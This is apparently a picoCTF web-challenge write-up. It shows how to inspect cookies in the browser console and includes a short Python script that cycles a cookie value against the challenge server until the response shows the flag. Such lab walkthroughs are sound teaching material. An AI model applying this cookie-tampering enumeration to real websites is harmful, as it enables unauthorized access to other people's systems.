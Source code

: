 The site gives you a search bar to search for different kinds of cookies.

If you open up the developer console => application tab => cookies, you can see the name and value columns.

As you search for different cookies in the search bar (i.e input "snickerdoodle" into the search bar and hit "search"), you will see that each type of cookie corresponds to a different value. You will see that "snickerdoodle" corresponds to the cookie value of 1 for example.

From here, you can manually change the values of the cookies, incrementing by 1 until you get the flag, or you can write a script to send requests. Here is a python script that does this:

```python
import requests

for i in range(20):
    cookies = {
        'name': str(i)
    }

    response = requests.get("http://mercury.picoctf.net:29649/check", cookies=cookies)
    data = response.text.split("<p style=\"text-align:center; font-size:30px;\"><b>")[1].split("</b>")[0]

    # print out the number of the cookie value that produces the flag
    # then go into the browser and change the cookie value to this number to get the answer
    if (data == 'Flag'):
        print(i)
```